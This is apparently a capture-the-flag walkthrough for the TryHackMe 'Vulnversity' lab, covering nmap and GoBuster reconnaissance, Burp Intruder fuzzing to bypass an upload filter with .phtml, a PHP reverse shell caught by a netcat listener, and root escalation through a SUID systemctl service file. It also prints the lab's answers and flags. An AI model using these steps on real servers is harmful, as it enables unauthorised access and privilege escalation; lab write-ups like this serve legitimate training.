# [Vulnversity][1]

## Reconnaissance

Start with a nmap scan 

`nmap -A <IP>` 



### How many ports are open? 

> **6**

### What version of the squid proxy is running on the machine? 

> **3.5.12**

### How many ports will nmap scan if the flag *-p-400* was used? 

> **400** (Ports 1-400)

### What is the most likely operating system this machine is running? 

> **Ubuntu**

### What port is the web server running on? 

> **3333**


## Locating directories using GoBuster

Now onto a GoBuster Directory scan of the webserver.



Opening the paths we found in a browser, we see the upload form page on /internal/



### What is the directory that has an upload form page? 

> **/internal/**


## Compromise the webserver

Try uploading the a file with a `.txt` and `.php` extension. You'll see that these extension are not allowed. We will take advantage of Burp Suite's Intruder tool and fuzz the upload form to see which extensions it will accept.



### What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.

> **.php**

1. In the `Proxy` tab, open Burp's browser and turn Intercept on
2. Navigate to the <IP>/internal page and upload a file
3. In Burp, you'll see the request being intercepted. Send it to `Intruder`
4. In `Intruder`, select `Sniper` as the attack type, highlight the `.extension` of your file and add a payload marker. This is the variable that will be changed in each upload attempt going through the `phpext.txt` extensions list
5. In the `Payloads` tab, load the `phpext.txt` and uncheck the URL Encoding at the bottom
6. Click Start Attack

** If URL encoding is left checked, the uploads will encode `.` as `%2e` and all fuzzing attempts will be unsuccessful





View the results and check the responses for each file extension. Only `.phtml` has a different file length and a Success response. This is the extension we will rename our reverse shell



### Run this attack, what extension is allowed? 

> **.phtml**

Use `netcat` to open a socket and listen for inbound connections on port 1234.

`nc -lvnp 1234`

`l: listen mode for inbound connections`

`v: verbose`

`n: disable DNS resolution`

`p: port number`





Edit the `php-reverse-shell.php` file to your host IP address and the netcat port and save as `.phtml` extension.



Upload the reverse shell `php-reverse-shell.phtml` to the webserver. Navigate to <IP>/internal/uploads to see your payload and click it to execute it.



Back in the terminal, we see our payload has established the reverse shell



Listing the users in the home directory shows one user `bill`



### What is the name of the user who manages the webserver? 

> **bill**

List the files in his directory to see `user.txt` for the flag.

### What is the user flag?
> **8bd7992fbe8a6ad22a63361004cfcedb**

## [TASK 5] Privilege Escalation

On the system, search for all SUID files. What file stands out? **/bin/systemctl**

> To find SUIDs on a system, run `find / -perm -u=s -type f 2>/dev/null`. To know more, [Click Here][3]

Become root and get the last flag (/root/root.txt)
> Run this commands
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```
The data from the file *root.txt* is copied to a file called *output* in *tmp* directory.
`cat /tmp/output`. To know more, Check this [Reference][4]

[1]: https://tryhackme.com/room/vulnversity
[2]: https://blog.hackhunt.in/2021/02/nmap-port-specification.html
[3]: https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
[4]: https://gtfobins.github.io/gtfobins/systemctl/

